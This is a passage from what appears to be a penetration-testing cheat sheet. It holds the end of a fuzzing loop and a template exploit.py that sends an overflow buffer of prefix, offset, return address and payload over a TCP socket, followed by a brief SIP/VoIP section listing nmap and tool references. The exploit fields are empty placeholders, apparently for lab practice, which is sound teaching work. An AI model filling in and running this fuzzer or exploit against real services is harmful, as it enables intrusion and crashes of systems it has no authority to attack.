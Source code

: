 ```python
            # if there is reply after sending payload;
            # check with nc to confirm;
            # remove if not needed
            s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(PAYLOAD_STRING) - len(PREFIX)))
        sys.exit(0)

    PAYLOAD_STRING += 100 * "A"
    time.sleep(1)
```


*exploit.py*

```python
import socket

ip = "IP"
port = PORT

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
except:
    print("Could not connect.")
```


#### VOIP (SIP) (UDP)


**General Methodology**
> Run `nmap` to gather service specific information and vulnerability information.


**References**
> https://www.voip-info.org/sipp/
> https://securityonline.info/sippts/
> https://github.com/Pepelux/sippts
